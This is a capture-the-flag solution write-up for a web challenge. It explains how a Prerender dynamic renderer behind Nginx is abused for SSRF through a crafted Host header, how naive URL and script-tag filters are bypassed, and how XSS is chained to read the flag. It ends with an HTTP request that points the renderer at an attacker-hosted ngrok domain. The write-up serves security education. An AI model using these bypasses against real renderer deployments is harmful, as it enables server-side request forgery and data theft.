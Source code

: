# Star Cereal Episode 3: The Revenge of the Breakfast - Solution

**Author**: zeyu2001

**Category**: Web

## Main Ideas

This challenge was heavily inspired by [Favorite Emojis - ACSC 2021](https://ctf.zeyu2001.com/2021/asian-cyber-security-challenge-acsc-2021/favorite-emojis).

The challenge was centred around the unsafe use of dynamic renderers such as Prerender, which are pretty much SSRF-as-a-service.

The main idea is that we could trick the dynamic renderer to render a sensitive internal endpoint by using a custom host header, since the Nginx configuration rewrites the URL using the host header as follows:

```nginx
if ($prerender = 1) {
    rewrite .* /$scheme://$host$request_uri? break;
    proxy_pass http://prerender:3000;
}
```

When I attempted this challenge, many participants used client-side redirects to get the renderer to display the flag in the response body.

This time, I added some extra checks to force the players to obtain XSS within the Chromium renderer and make use of the `localhost:3000` origin to bypass the Same Origin Policy.

1. `validateUrls` is a naive URL validation mechanism that checks whether the URL begins with `http://app`. This can be easily bypassed by using the `username:password@hostname` URL format.

```javascript
const validateUrls = (req, res, next) => {

    let matches = url.parse(req.prerender.url).href.match(/^(http:\/\/|https:\/\/)app/gi)
    if (!matches) {
        return res.send(403, 'NO_FLAG_FOR_YOU_MUAHAHAHA');
    }
    
    next();
}
```

To bypass this, use `Host: app@ATTACKER_URL`

2. `noScriptsPlease` is also a naive "script remover" that removes `<script>` tags. This can be easily bypassed by using `onload` event handlers and the like.

```javascript
const noScriptsPlease = (req, res, next) => {
    
    if (!req.prerender.content || req.prerender.renderType != 'html') {
        return next();
    }

    var matches = req.prerender.content.toString().match(/<script(?:.*?)>(?:[\S\s]*?)<\/script>/gi);
    if (matches)
        return res.send(403, 'NO_FLAG_FOR_YOU_MUAHAHAHA');

    matches = req.prerender.content.toString().match(/<link[^>]+?rel="import"[^>]*?>/i);
    if (matches)
        return res.send(403, 'NO_FLAG_FOR_YOU_MUAHAHAHA');

    next();
}
```

3. The Nginx frontend will replace any flags in the response body. Therefore, this challenge cannot be trivially solved by using redirects to `http://app/login.php`. One must achieve XSS within the `localhost:3000` origin, and use the `localhost:3000/render?url=` feature to bypass the same-origin policy and read the flag.

```nginx
# Do or do not, there is no flag.
proxy_set_header Accept-Encoding "";
subs_filter_types text/html text/css text/xml;
subs_filter "SEE{.*}" "SEE{NO_FLAG_FOR_YOU_MUAHAHAHA}" ir;
```

## Solution

Host the `outer.html` and `inner.html` files, then make a request to `outer.html`:

```http
GET /outer.html HTTP/1.1
Host: app@7022-42-60-216-15.ngrok.io
User-Agent: googlebot


```